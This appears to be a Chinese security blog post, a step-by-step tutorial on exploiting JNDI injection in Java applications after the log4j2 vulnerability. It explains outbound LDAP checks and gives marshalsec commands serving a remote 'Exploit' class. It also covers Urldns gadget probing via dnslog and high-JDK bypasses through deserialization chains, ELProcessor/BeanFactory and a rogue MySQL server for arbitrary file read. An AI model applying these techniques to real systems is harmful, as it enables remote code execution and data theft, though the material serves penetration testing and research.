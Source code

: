 #  到底如何利用JNDI？

原创 珂字辈  [ 珂技知识分享 ](javascript:void\(0\);)

**珂技知识分享** ![]()

微信号 kezibei001

功能介绍 分享自己的安全技术，渗透实例，IT知识，拒绝转载，坚持原创。

____

___发表于_

收录于合集

在log4j2漏洞之后很多人常常可以借助扫描器发现JNDI漏洞，却对利用JNDI感到很棘手，这篇文章就从实际出发，尽量少的讲原理，一步一步教你如何利用JNDI漏洞。

  

首先，JNDI分两种协议，一种rmi，一种ldap，在绝大部分情况下，ldap可以完美覆盖rmi，因此你可以无视rmi直接用ldap。

使用ldap，也分三种情况。

一种是jndi注入，需要被攻击者A，访问VPS上的ldap服务，然后ldap服务要求被攻击者A访问并加载一个http服务上的class。这种情况受着JDK版本限制(最低JDK11.0.1/8u191/7u201/6u211)

一种是ldap反序列化，需要被攻击者A，访问VPS上的ldap服务，然后ldap服务传输序列化payload，要求被攻击者A去进行反序列化。这种情况需要反序列化链。

一种是ldap工厂类绕过，和反序列化过程几乎一样，不同的是反序列化链换成了ObjectFactory链。

  

我们在测试JNDI漏洞时， **第一要求就是ldap协议出网**
，ldap协议不出网是绝对无法完成漏洞利用的。对log4j2来说，不出网还可以用dnslog带出敏感信息，对fastjson来说，也有不出网的利用方法，但对JNDI的利用来说，必须得出网。  

判断是否出网很简单，用rmi协议会非常直观(当然ldap也可以)，比如我在本地上搭了个log4j2漏洞环境。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135906.png)

 **  
**

 **一、JNDI注入**  

确定出网后，就可以尝试JNDI注入。如果我们能获取对方的JDK版本，直接对比就行了，比如log4j2就可以利用dnslog或者ldap来获取JDK版本。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135908.png)

如果不能，就要盲打，可以用任意一个JNDI工具尝试盲打，比如marshalsec。

  * 

    
    
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:5667/#Exploit" 1389

然后监听5667，如果收到http请求证明可以JNDI注入。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135909.png)

再深入利用就是将5667端口上的class换成命令执行或者内存马的恶意类。因为需要临时制作恶意类，还需要开ldap和http两个端口，比较麻烦，所以现在很多JNDI工具都集成了JNDI注入功能，大家自己搜。

https://github.com/search?q=jndi

  

 **二、反序列化绕过**

但是绝大部分时候都是高版本JDK，我们只能寻求绕过方法。第一种是反序列化绕过，要求对方有反序列化链。

这种情况就只需要一个ldap服务，上述的JNDI工具也集成了此功能，但是对于反序列化链的寻找，就需要用到Urldns进行探测。

https://github.com/kezibei/Urldns

我们需要找到一个可以显示很多条dnslog的网站。

https://dig.pm/

  * 

    
    
    java -jar Urldns.jar ldap all xxx.dnslog.cn

发起jndi攻击，效果如下

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135910.png)

68多条，很多重复的，在web中显示不全，在burp中查看所有记录。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135911.png)

如果自建dnslog平台可以写个小脚本提取一下，我这里就手工提取比较重要的信息。

  *   *   *   *   *   *   *   *   *   * 

    
    
    cc31or321.c2424831.logplog.eu.orgcb19x.c2424831.logplog.eu.orgjavax_el_ELProcessor.c2424831.logplog.eu.orgcc322.c2424831.logplog.eu.orgorg_yaml_snakeyaml_Yaml.c2424831.logplog.eu.orgbecl.c2424831.logplog.eu.orgwindows.c2424831.logplog.eu.orgcom_mysql_jdbc_Driver.c2424831.logplog.eu.orgcom_zaxxer_hikari_HikariJNDIFactory.c2424831.logplog.eu.orgorg_apache_naming_factory_BeanFactory.c2424831.logplog.eu.org

只关注反序列化链，有cb19x，有cc31or321和cc322，高版本覆盖低版本，因此cc322没有反序列化链漏洞，能利用的唯一链就是cb19x。

那么就需要用JNDI工具进行JNDI bypass，我自己写了一个，大家用网上的就行。注意commons-beanutils版本依赖。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135912.png)

  

 **三、ObjectFactory绕过**

和反序列化绕过类似，只要被攻击者有对应的依赖就行，长期以来一直用的是javax.el.ELProcessor和org.apache.naming.factory.BeanFactory组合。但浅蓝挖掘了更多的可能性。

http://www.b1ue.cn/archives/529.html

我们用Urldns探测之后发现也发现了ELProcessor和BeanFactory，那么可以如图。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135914.png)

还可以发现HikariJNDIFactory和mysql的组合，mysql
jdbc可以反序列化(无意义)和任意文件读取。如下图，利用jndi工具和rogue_mysql_server.py实现任意文件读取。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135915.png)

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

